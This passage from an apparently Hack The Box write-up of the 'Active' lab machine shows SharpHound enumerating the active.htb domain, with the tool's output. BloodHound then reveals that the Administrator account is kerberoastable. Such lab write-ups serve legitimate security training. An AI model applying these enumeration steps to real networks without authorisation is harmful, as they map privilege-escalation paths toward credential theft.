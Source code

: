 From this cmd prompt, we can run SharpHound to get a set of JSON files that are in a ZIP file.

```bash
c:\Users\rin\boxes\Active>.\SharpHound.exe -d active.htb
-----------------------------------------------
Initializing SharpHound at 2:03 PM on 1/14/2021
-----------------------------------------------
Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, 
    LocalGroups, SPNTargets, Container
[+] Creating Schema map for domain ACTIVE.HTB using path CN=Schema,
    CN=Configuration,DC=ACTIVE,DC=HTB
[+] Cache File not Found: 0 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
Status: 46 objects finished (+46 7.666667)/s -- Using 26 MB RAM
Enumeration finished in 00:00:06.5475076
Compressing data to .\20210114140331_BloodHound.zip
You can upload this file directly to the UI
SharpHound Enumeration Completed at 2:03 PM on 1/14/2021! Happy Graphing!
```

Once this is done, we can launch BloodHound, upload the zip file and then run queries to explore the domain. If we run the query, List all Kerberoastable Accounts, we find that Administrator is kerberoastable. This means that the account has an associated SPN \(Service Principle Name\).

![Kerberoastable users in the Active.htb domain](../.gitbook/assets/3%20%288%29.png)
